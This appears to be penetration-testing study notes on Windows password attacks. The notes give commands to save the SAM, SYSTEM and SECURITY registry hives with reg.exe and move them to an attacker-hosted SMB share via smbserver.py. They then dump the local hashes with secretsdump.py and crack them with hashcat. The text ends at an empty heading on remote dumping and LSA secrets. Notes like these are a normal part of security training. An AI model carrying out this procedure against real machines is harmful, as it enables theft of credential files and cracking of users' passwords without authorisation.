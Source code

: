 # Windows Password Attacks

## SAM 

### Copying SAM Registry Hives 

There are three registry hives that we can copy if we have local admin access on the target:

| **Registry Hive**   | **Description**    |
|--------------- | --------------- |
| `hklm\sam` | Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext. |
| `hklm\system` | Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database. |
| `hklm\security` | Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target. |

We can create backups of these hives using `reg.exe`. For example:
```console
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save

C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save

C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save
```

We only need **sam** and **system**, but **security** can included hashes associated with the cached domain.

We can move the files with `smbserver.py`:
```console
zero@pio$ sudo smbserver.py -smb2support CompData /home/<USER>/Documents/
```

```console
C:\> move sam.save \\<WIN IP>\CompData
C:\> move security.save \\<WIN IP>\CompData
C:\> move system.save \\<WIN IP>\CompData
```

### Dumping Hashes 

For this we can use `secretsdump.py`. The usage is simple as:
```console
zero@pio$ secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

### Cracking Hashes 

Add all the hashes we want to crack to a file. Now we must run the `-m 1000` version of hashcat:
```console
zero@pio$ hashcat -m 1000 <HASH FILE> <WORDLIST>
```

### Remote Dumping & LSA Secrets 
